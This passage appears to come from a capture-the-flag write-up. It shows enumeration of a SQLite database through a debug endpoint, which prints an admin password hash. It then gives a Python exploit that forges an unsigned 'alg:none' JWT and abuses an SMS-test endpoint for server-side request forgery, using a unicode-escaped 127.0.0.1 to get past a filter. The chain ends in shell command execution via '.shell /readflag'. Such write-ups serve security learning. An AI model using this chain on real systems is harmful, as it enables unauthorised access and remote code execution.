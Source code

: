 `select * from users;`

```
{"status":"success","result":"{\"sql\":\"select * from users;\",\"output\":\"1,admin,3e6add0619f2e08315ba0e0523809fcc,1\\n\"}"}
```

`WITH Test(x, y) AS (SELECT UNIXEPOCH(), 1 UNION ALL SELECT x - (24 * 60 * 60), y + 1 FROM Test WHERE y < 20) SELECT x FROM Test;`

```
{"status":"success","result":"{\"sql\":\"WITH Test(x, y) AS (SELECT UNIXEPOCH(), 1 UNION ALL SELECT x - (24 * 60 * 60), y + 1 FROM Test WHERE y < 20) SELECT x FROM Test;\",\"output\":\"Error: no such function: UNIXEPOCH\\n\"}"}
```

So it's a SQlite3 database without `UNIXEPOCH` (< version 3.38).

`.tables`

```
{"status":"success","result":"{\"sql\":\".tables\",\"output\":\"enrollments  settings     users      \\n\"}"}
```

`.schema users`

```
{"status":"success","result":"{\"sql\":\".schema users\",\"output\":\"CREATE TABLE users (\\n                id         INTEGER NOT NULL PRIMARY KEY AUTOINCREMENT,\\n                username   VARCHAR(255) NOT NULL UNIQUE,\\n                password   VARCHAR(255) NOT NULL,\\n                verified   BOOLEAN      NOT NULL DEFAULT false\\n            );\\n\"}"}
```

## RCE from SQLite query

```python
from base64 import urlsafe_b64decode, urlsafe_b64encode
from urllib.request import urlopen, Request
from json import dumps, loads

jwt = (urlsafe_b64encode(b'{"alg":"none","typ":"JWT"}').decode() + '.' + urlsafe_b64encode(b'{"username":"admin","iat":1669986844}').decode() + ".3k-DrKL7wY3T0QJ0N_6owMKRTevB1TLSXPeC5Rrit8k").replace("=", "")

response = urlopen(
    Request(
        "http://161.35.173.232:30925/api/sms/test",
        data=dumps(
            {
                "verb": "POST",
                "url": f"http://\u0031\u0032\u0037\u002e\u0030\u002e\u0030\u002e\u0031:1337/debug/sql/exec", # "http://167.99.94.114:31956/debug/sql/exec",
                "params": dumps({"sql": ".shell /readflag","password": "CzliwZJkV60hpPJ"}),
                "headers": "Content-Type: application/json\r\nCookie: session=" + jwt,
                "resp_ok": "<status>ok</status>",
                "resp_bad": "<status>error</status>"
            }
        ).encode(), # .replace(b'127.0.0.1', b'\\u0031\\u0032\\u0037\\u002e\\u0030\\u002e\\u0030\\u002e\\u0031')
        headers={'Content-Type': 'application/json', 'Cookie': 'session=' + jwt},
        method='POST',
    )
)

print(loads(loads(response.read())["result"])['output'])
```
